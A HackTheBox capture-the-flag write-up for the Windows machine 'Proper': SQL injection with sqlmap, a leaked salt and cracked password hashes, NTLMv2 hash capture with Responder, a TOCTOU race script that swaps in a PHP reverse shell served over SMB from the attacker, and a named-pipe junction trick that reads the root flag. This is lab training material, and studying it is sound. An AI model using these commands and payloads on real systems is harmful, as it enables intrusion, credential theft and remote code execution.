









# Proper - HackTheBox - Writeup
Windows, 40 Base Points, Hard

## Machine


 
 ### TL;DR;

To solve this machine, we begin by enumerating open services – finding only port 80.

***User:*** From the webserver, we find a SQL Injection vulnerable, Get credentials from database to login page.

After successful login we found ```Time of check to time of use (TOCTOU)``` vulnerability, Exploiting the vulnerability and we can get in the machine as a ```web``` user.

***Root:*** By analyzing ```C:\Program Files\Cleanup\server.exe```,```C:\Program Files\Cleanup\client.exe``` files we found ```CLEAN``` / ```RESTORE``` commands that are sent to pipe, By creating a link to root flag, We can simply ```CLEAN``` the link and then ```RESTORE``` the root flag to the same place.


## Proper Solution



### User

Let's try with ```nmap``` scanning:

```console
┌─[evyatar@parrot]─[/hackthebox/Proper]
└──╼ $ nmap -sC -sV -oA nmap/Proper 10.10.10.231
Starting Nmap 7.80 ( https://nmap.org ) at 2021-07-11 00:14 IDT
Nmap scan report for 10.10.10.231
Host is up (0.092s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: OS Tidy Inc.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.22 seconds
```

Let's observe port 80:


By intercepting the requests using [BurpSuite](https://portswigger.net/burp) We can see the following request [http://10.10.10.231/products-ajax.php?order=id+desc&h=a1b30d31d344a5a4e41e8496ccbdd26b](http://10.10.10.231/products-ajax.php?order=id+desc&h=a1b30d31d344a5a4e41e8496ccbdd26b):


By removing the arguments [http://10.10.10.231/products-ajax.php?](http://10.10.10.231/products-ajax.php) we get the following error:


Let's observe the error:
```
<!-- [8] Undefined index: order

On line 6 in file C:\inetpub\wwwroot\products-ajax.php

  1 |   // SECURE_PARAM_SALT needs to be defined prior including functions.php 
  2 |   define('SECURE_PARAM_SALT','hie0shah6ooNoim'); 
  3 |   include('functions.php'); 
  4 |   include('db-config.php'); 
  5 |   if ( !$_GET['order'] || !$_GET['h'] ) {                <<<<< Error encountered in this line.
  6 |     // Set the response code to 500 
  7 |     http_response_code(500); 
  8 |     // and die(). Someone fiddled with the parameters. 
  9 |     die('Parameter missing or malformed.'); 
 10 |   } 
 11 |  
// -->
```
We can see the hash salt ```hie0shah6ooNoim```.

So we know the calculate of ```h``` is ```md5('hie0shah6ooNoim'+order)```.

We can use [sqlmap](https://sqlmap.org/) to get SQL Injection ([md5calc using sqlmap](https://securitypadawan.blogspot.com/2014/01/using-sqlmaps-eval-functionality-for.html)) as follow:
```console
┌─[evyatar@parrot]─[/hackthebox/Proper]
└──╼ $ sqlmap -l request -p order --eval="import hashlib ; h=hashlib.md5(('hie0shah6ooNoim'+order).encode('utf-8')).hexdigest()" -v 5 --db
...
[23:33:46] [DEBUG] performed 28 queries in 5.50 seconds
available databases [3]:
[*] cleaner
[*] information_schema
[*] test

```

We can get the tables from ```cleaner``` database:
```console
┌─[evyatar@parrot]─[/hackthebox/Proper]
└──╼ $ sqlmap -l request -p order --eval="import hashlib ; h=hashlib.md5(('hie0shah6ooNoim'+order).encode('utf-8')).hexdigest()" -v 5 -D cleaner --tables
...
[23:47:19] [DEBUG] performed 53 queries in 5.68 seconds
Database: cleaner
[3 tables]
+-----------+
| customers |
| licenses  |
| products  |
+-----------+
```

Now, Let's dump customers tables:
```console
┌─[evyatar@parrot]─[/hackthebox/Proper]
└──╼ $ sqlmap -l request -p order --eval="import hashlib ; h=hashlib.md5(('hie0shah6ooNoim'+order).encode('utf-8')).hexdigest()" -D cleaner --tables -T customers --dump --threads 10
...
+----+------------------------------+----------------------------------+----------------------+
| id | login                        | password                         | customer_name        |
+----+------------------------------+----------------------------------+----------------------+
| 1  | vikki.solomon@throwaway.mail | 7c6a180b36896a0a8c02787eeafb0e4c | Vikki Solomon        |
| 2  | nstone@trashbin.mail         | 6cb75f652a9b52798eb6cf2201057c73 | Neave Stone          |
| 3  | bmceachern7@discovery.moc    | e10adc3949ba59abbe56e057f20f883e | Bertie McEachern     |
| 4  | jkleiser8@google.com.xy      | 827ccb0eea8a706c4c34a16891f84e7b | Jordana Kleiser      |
| 5  | mchasemore9@sitemeter.moc    | 25f9e794323b453885f5181f1b624d0b | Mariellen Chasemore  |
| 6  | gdornina@marriott.moc        | 5f4dcc3b5aa765d61d8327deb882cf99 | Gwyneth Dornin       |
| 7  | itootellb@forbes.moc         | f25a2fc72690b780b2a14e140ef6a9e0 | Israel Tootell       |
| 8  | kmanghamc@state.tx.su        | 8afa847f50a716e64932d995c8e7435a | Karon Mangham        |
| 9  | jblinded@bing.moc            | fcea920f7412b5da7be0cf42b8c93759 | Janifer Blinde       |
| 10 | llenchenkoe@macromedia.moc   | f806fc5a2a0d5ba2471600758452799c | Laurens Lenchenko    |
| 11 | aaustinf@booking.moc         | 25d55ad283aa400af464c76d713c07ad | Andreana Austin      |
| 12 | afeldmesserg@ameblo.pj       | e99a18c428cb38d5f260853678922e03 | Arnold Feldmesser    |
| 13 | ahuntarh@seattletimes.moc    | fc63f87c08d505264caba37514cd0cfd | Adella Huntar        |
| 14 | talelsandrovichi@tamu.ude    | aa47f8215c6f30a0dcdb2a36a9f4168e | Trudi Alelsandrovich |
| 15 | ishayj@dmoz.gro              | 67881381dbc68d4761230131ae0008f7 | Ivy Shay             |
| 16 | acallabyk@un.gro             | d0763edaa9d9bd2a9516280e9044d885 | Alys Callaby         |
| 17 | daeryl@about.you             | 061fba5bdfc076bb7362616668de87c8 | Dorena Aery          |
| 18 | aalekseicikm@skyrock.moc     | aae039d6aa239cfc121357a825210fa3 | Amble Alekseicik     |
| 19 | lginmann@lycos.moc           | c33367701511b4f6020ec61ded352059 | Lin Ginman           |
| 20 | lgiorioo@ow.lic              | 0acf4539a14b3aa27deeb4cbdf6e989f | Letty Giorio         |
| 21 | lbyshp@wired.moc             | adff44c5102fca279fce7559abf66fee | Lazarus Bysh         |
| 22 | bklewerq@yelp.moc            | d8578edf8458ce06fbc5bb76a58c5ca4 | Bud Klewer           |
| 23 | wstrettellr@senate.gov       | 96e79218965eb72c92a549dd5a330112 | Woodrow Strettell    |
| 24 | lodorans@kickstarter.moc     | edbd0effac3fcc98e725920a512881e0 | Lila O Doran         |
| 25 | bpfeffelt@artisteer.moc      | 670b14728ad9902aecba32e22fa4f6bd | Bibbie Pfeffel       |
| 26 | lgrimsdellu@abc.net.uvw      | 2345f10bb948c5665ef91f6773b3e455 | Luce Grimsdell       |
| 27 | lpealingv@goo.goo            | f78f2477e949bee2d12a2c540fb6084f | Lyle Pealing         |
| 28 | krussenw@mit.ude             | 0571749e2ac330a7455809c6b0e7af90 | Kimmy Russen         |
| 29 | meastmondx@businessweek.moc  | c378985d629e99a4e86213db0cd5e70d | Meg Eastmond         |
+----+------------------------------+----------------------------------+----------------------+

```

After cracking the hashes (using ```john```/```hashcat```) we found the following credentials ```vikki.solomon@throwaway.mail:password1```.

From ```dirbuster``` we found the following login page [http://10.10.10.231/licenses/licenses.php](http://10.10.10.231/licenses/licenses.php):


By login with the credentials above we get the following page:



If we are clicking on one of the themes (Top right) - ```Darkly,Flatly,Solar``` We get the following request:



If we are trying to change them from ```Darkly``` to ```test``` (Sign the md5 using ```hie0shah6ooNoim``` same as before) as follow:
```HTTP
GET /licenses/licenses.php?theme=test&h=d9f7afc366cf839391aac8d0d333c7c5 HTTP/1.1
Host: 10.10.10.231
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://10.10.10.231/licenses/licenses.php?theme=flatly&h=a48e169864f4b46a09d36664ec645f75
Cookie: PHPSESSID=51kr5t5b0ot72c7feg9p4jnaf6
Upgrade-Insecure-Requests: 1

```

We get the following response:
```HTTP
HTTP/1.1 200 OK
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Type: text/html; charset=UTF-8
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Server: Microsoft-IIS/10.0
X-Powered-By: PHP/7.4.
Date: Sat, 24 Jul 2021 16:30:52 GMT
Connection: close
Content-Length: 4794


<!-- [2] file_get_contents(test/header.inc): failed to open stream: No such file or directory

On line 35 in file C:\inetpub\wwwroot\functions.php

 30 |  
 31 | // Following function securely includes a file. Whenever we 
 32 | // will encounter a PHP tag we will just bail out here. 
 33 | function secure_include($file) { 
 34 |   if (strpos(file_get_contents($file),'<?') === false) {                <<<<< Error encountered in this line.
 35 |     include($file); 
 36 |   } else { 
 37 |     http_response_code(403); 
 38 |     die('Forbidden - Tampering attempt detected.'); 
 39 |   } 
 40 | } 
// -->
<!-- [2] include(test/header.inc): failed to open stream: No such file or directory

On line 36 in file C:\inetpub\wwwroot\functions.php

 31 | // Following function securely includes a file. Whenever we 
 32 | // will encounter a PHP tag we will just bail out here. 
 33 | function secure_include($file) { 
 34 |   if (strpos(file_get_contents($file),'<?') === false) { 
 35 |     include($file);                <<<<< Error encountered in this line.
 36 |   } else { 
 37 |     http_response_code(403); 
 38 |     die('Forbidden - Tampering attempt detected.'); 
 39 |   } 
 40 | } 
 41 |  
// -->
<!-- [2] include(): Failed opening 'test/header.inc' for inclusion (include_path='.;C:\php\pear')

On line 36 in file C:\inetpub\wwwroot\functions.php

 31 | // Following function securely includes a file. Whenever we 
 32 | // will encounter a PHP tag we will just bail out here. 
 33 | function secure_include($file) { 
 34 |   if (strpos(file_get_contents($file),'<?') === false) { 
 35 |     include($file);                <<<<< Error encountered in this line.
 36 |   } else { 
 37 |     http_response_code(403); 
 38 |     die('Forbidden - Tampering attempt detected.'); 
 39 |   } 
 40 | } 
 41 |  
// -->
....
```

Let's take a look at the following lines:
```php
..
 34 |   if (strpos(file_get_contents($file),'<?') === false) { 
 35 |     include($file);                <<<<< Error encountered in this line.
 36 |   } else { 
 37 |     http_response_code(403); 
 38 |     die('Forbidden - Tampering attempt detected.'); 
 39 |   } 
 40 | } 
 ...
```

We can see It's trying to get file ```test/header.inc``` using ```file_get_contents($file)``` where ```$file``` It's the theme name, Next, It checks if this file includes ```<?``` which is start of ```php``` code tag, If so, It returns 403 response code.

Let's try to create SMB server using [Responder](https://github.com/SpiderLabs/Responder) as follow:
```console
┌─[evyatar@parrot]─[/hackthebox/Proper]
└──╼ $ responder -I tun0 smb
[+] Listening for events...

```

In the same folder let's create ```test\header.inc``` file with ```test``` content.

Now, Let's try to navigate the webserver to fetch the file from our smb server as follow:
```HTTP
GET /licenses/licenses.php?theme=\\10.10.14.14\test&h=d9f7afc366cf839391aac8d0d333c7c5 HTTP/1.1
Host: 10.10.10.231
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://10.10.10.231/licenses/licenses.php?theme=flatly&h=a48e169864f4b46a09d36664ec645f75
Cookie: PHPSESSID=51kr5t5b0ot72c7feg9p4jnaf6
Upgrade-Insecure-Requests: 1
```

By sending this web request we can see the following on responder:
```console
┌─[evyatar@parrot]─[/hackthebox/Proper]
└──╼ $ responder -I tun0 smb
[SMB] NTLMv2-SSP Client   : 10.10.10.231
[SMB] NTLMv2-SSP Username : PROPER\web
[SMB] NTLMv2-SSP Hash     : web::PROPER:96dd7441729a5a21:4E4E3D0CBC9F1871C3FDCCC118FC4787:0101000000000000C0653150DE09D20184E9C4665A08B305000000000200080053004D004200330001001E00570049004E002D00500052004800340039003200520051004100460056000400140053004D00420033002E006C006F00630061006C0003003400570049004E002D00500052004800340039003200520051004100460056002E0053004D00420033002E006C006F00630061006C000500140053004D00420033002E006C006F00630061006C0007000800C0653150DE09D20106000400020000000800300030000000000000000000000000200000AFDCFF91D9ED22FE2DD30CA6E2060D46D0FDF7C76AA28E0F51FEE9CF83DEBEAC0A001000000000000000000000000000000000000900200063006900660073002F00310030002E00310030002E00310034002E00320031000000000000000000
```

Great, Let's crack this ```MTLMv2``` hash using john:
```console
┌─[evyatar@parrot]─[/hackthebox/Proper]
└──╼ $ john --wordlist=~/rockyou.txt ntlmv2_hash
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
charlotte123!    (web)
1g 0:00:00:00 DONE (2021-07-24 23:42) 1.960g/s 1943Kp/s 1943Kc/s 1943KC/s chibigirl..chaque
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed
```

And we get the following creds ```web:charlotte123!```.

Let's create SMB server with those credentials using [smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py):
```console
┌─[evyatar@parrot]─[/hackthebox/Proper]
└──╼ $ sudo python3 smbserver.py -username 'web' -password 'charlotte123!' -smb2support test /hackthebox/Proper
```

So now, The webserver looking at our SMB directory as a source of ```header.inc``` file, As we saw before, If we make GET request It checks if ```header.inc``` file contains ```<?```.

We are able to create [Time of check to time of use (TOCTOU): A race condition](https://hackernoon.com/time-of-check-to-time-of-use-toctou-a-race-condition-99c2311bd9fc) attack.

Let's observe again the code:
```php
 30 |  
 31 | // Following function securely includes a file. Whenever we 
 32 | // will encounter a PHP tag we will just bail out here. 
 33 | function secure_include($file) { 
 34 |   if (strpos(file_get_contents($file),'<?') === false) {                <<<<< Error encountered in this line.
 35 |     include($file); 
 36 |   } else { 
 37 |     http_response_code(403); 
 38 |     die('Forbidden - Tampering attempt detected.'); 
 39 |   } 
 40 | } 
// -->
```

So we can check the content of the file right after line 34, At the moment the webserver will check the content of the file (line 34) it will be without PHP tag, and right after that, we will change the content of the file to include PHP tag.

We can do it by the following python script:
```python
import inotify.adapters
import os

def _main():
    i = inotify.adapters.Inotify()

    i.add_watch('/hackthebox/Proper/test/header.inc')

    for event in i.event_gen(yield_nones=False):
        (_, type_names, path, filename) = event

        os.system('cp /hackthebox/Proper/test/header.inc.with.tag /hackthebox/Proper/test/header.inc')

if __name__ == '__main__':
    _main()
```

So this script detects changes on ```header.inc``` file, Right after this file changed it replaces it with PHP file contains [https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/php_reverse_shell.php).

So while we running the script above, Open SMB server using ```smbserver.py``` let's send another GET request:
```HTTP
GET /licenses/licenses.php?theme=\\10.10.14.14\test&h=c5dce19f1da208242efe05f55387ab2e HTTP/1.1
Host: 10.10.10.231
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Referer: http://10.10.10.231/licenses/licenses.php
Cookie: PHPSESSID=51kr5t5b0ot72c7feg9p4jnaf6
Upgrade-Insecure-Requests: 1


```

By sending it we get a reverse shell (Maybe you may need to send GET request more than one time):
```console
┌─[evyatar@parrot]─[/hackthebox/Proper]
└──╼ $ nc -lvp 1234
listening on [any] 1234 ...
connect to [10.10.14.21] from proper.htb [10.10.10.231] 57292
SOCKET: Shell has connected! PID: 2588
Microsoft Windows [Version 10.0.17763.1728]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\wwwroot\licenses> type C:\users\web\desktop\user.txt
f7a7c79f52fd5f7ff6e8b602721bb52c
```

And we get the user flag ```f7a7c79f52fd5f7ff6e8b602721bb52c```.

### Root

By observing the running process we can see ```server.exe``` file, which is located on ```C:\Program Files\Cleanup```.

This directory contains the following files:
```console
c:\Program Files\Cleanup>dir
 Volume in drive C has no label.
 Volume Serial Number is FE0C-A36B

 Directory of c:\Program Files\Cleanup

11/15/2020  05:05 AM    <DIR>          .
11/15/2020  05:05 AM    <DIR>          ..
11/15/2020  05:03 AM         2,999,808 client.exe
11/15/2020  10:22 AM               174 README.md
11/15/2020  06:20 AM         3,041,792 server.exe
               3 File(s)      6,041,774 bytes
               2 Dir(s)   7,342,329,856 bytes free

```

```server.exe``` and ```client.exe``` are both ```go``` binaries.

By decompiled ```client.exe``` using ```IDA``` / ```Ghidra``` We can see the follow:


As we can see It's trying to get a named pipe called ```cleanupPipe```.

Next, we can see that the client send ```RESTORE %s``` to the named pipe:


By running the binaries (on Windows 10 machine) I can see the following:


We can see the path ```C:\ProgramData\Cleanup\dGVzdA==``` Where ```dGVzdA==``` is base64 of ```test``` (Which Is the name I sent from client.exe).

We can send our own data to ```server.exe``` using ```echo``` command to the pipe:
```console
c:\Users\user\Downloads>echo CLEAN \users\user\downloads\evyatar\test.txt > \\.\pipe\cleanupPipe
```

And the server get:
```console
CLEAN \users\user\downloads\evyatar\test.tx
Open \users\user\downloads\evyatar\test.tx: The system cannot find the file specified.
```

For some reason - we can see the last character of ```test.txt``` is missed.

```CLEAN``` removes the file specified in the file path and moves it to ```C:\ProgramData\Cleanup\<base64-encoded file path>``` and encrypted the file using AES-GCM.

Where ```RESTORE``` restores the file back to the original file path by decrypting the file contents and decoding the file path.

We can create a link to the root flag, To ```CLEAN``` it and then ```RESTORE``` it again to get the root flag!.

Let's do it, First, Let's create the link as follow:
```console
c:\Users\web\Downloads>mklink /j evyatar \users\administrator\desktop
Junction created for evyatar <<===>> \users\administrator\desktop
```

Next, Let's call to ```CLEAN``` command (Append one more character after ```root.txt```):
```console
c:\Users\web\Downloads>echo CLEAN \users\web\downloads\evyatar\root.txtx > \\.\pipe\cleanupPipe

c:\Users\web\Downloads>dir \programdata\cleanup
 Volume in drive C has no label.
 Volume Serial Number is FE0C-A36B

 Directory of c:\programdata\cleanup

07/25/2021  01:31 PM    <DIR>          .
07/25/2021  01:31 PM    <DIR>          ..
07/25/2021  01:31 PM               192 XHVzZXJzXHdlYlxkb3dubG9hZHNcZXZ5YXRhclxyb290LnR4dA==
               1 File(s)            192 bytes
               2 Dir(s)   7,346,458,624 bytes free

```

Now, Let's recreate the link folder:
```console
c:\Users\web\Downloads>rmdir evyatar

c:\Users\web\Downloads>mkdir evyatar
```

Now, Let's ```RESTORE``` the file:
```console
c:\Users\web\Downloads>echo RESTORE \users\web\downloads\evyatar\root.txtx > \\.\pipe\cleanupPipe

c:\Users\web\Downloads>type evyatar\root.txt
916c9624512a851175a8cf6d9933922e
```
And we get the root flag ```916c9624512a851175a8cf6d9933922e```.